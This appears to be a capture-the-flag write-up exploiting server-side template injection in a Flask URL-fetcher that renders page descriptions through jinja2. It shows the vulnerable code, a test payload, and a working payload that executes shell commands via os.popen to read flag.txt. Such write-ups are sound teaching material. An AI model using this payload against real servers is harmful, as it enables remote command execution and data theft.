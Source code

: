 # Overview
This is the login and registration interface when we start entering the website  
  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/2cb3233f-e361-46af-b837-190d75dc273c" />

After creating an account and logging in, you will be taken to a page that allows us to fetch the urls we passed  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/b4c84f43-731b-4fc2-97cf-ffbce2193a0e" />  

# Recon
Try streaming https://facebook.com  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/343f43da-8cdb-40b3-a59b-5e3d335e3fca" />  
There are 3 return parameters:  
* Url when fetched
* Title page
* Description
Reading the source code we can see there is a vulnerability related to SSTI:
```
  escaped_description = html.escape(description) # Escape HTML entities in description
  escaped_description = Template(description).render()
  escaped_url = html.escape(url)
  escaped_title = html.escape(title)
```
=> We can see that if we pass an SSTI payload into the description, it will be reflected out  
Analyzing the code a little more, we can see that the website uses flask python to code and the jinja2 template is imported for use.  
```
from flask import Flask, request, render_template, redirect, url_for, session, g
from jinja2 import Template
```
# Solution
Now we will create a web metadata containing description and payload  
```
<html>
  <head>

    <meta name="description" content="{{ 7*’7’}}">
  </head>
  <body>Exploit</body>
</html>
```
We see that the description has executed the payload **SSTI** :  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/c1233d0b-a486-42fd-b0fb-2f90859ce646" />  
Now we will transmit the payload to read the flag:  
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}```  
  
Flag will be returned  
<img width="500" height="250" alt="image" src="https://github.com/user-attachments/assets/d935b5ef-7d3b-40b7-acfb-c40fd7fced52" />
  
See more: [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)




